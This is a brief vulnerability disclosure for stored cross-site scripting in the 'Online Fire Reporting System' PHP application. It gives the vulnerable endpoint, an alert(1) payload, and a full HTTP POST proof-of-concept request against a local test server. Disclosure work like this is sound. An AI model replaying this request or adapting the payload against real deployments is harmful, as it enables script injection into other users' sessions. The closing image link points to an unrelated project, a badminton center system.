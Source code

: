 # online-fire-reporting-system - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ofrs/classes/Master.php

Vulnerability location: /ofrs/classes/Master.php?f=save_team, code

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/ofrs/classes/Master.php?f=save_team HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------12232441784418479012629232838
Content-Length: 660
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/ofrs/admin/?page=teams/manage_team&id=6
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="id"

6
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="code"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="leader_name"

asd
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="leader_contact"

asd
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="members"

asd
-----------------------------12232441784418479012629232838--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)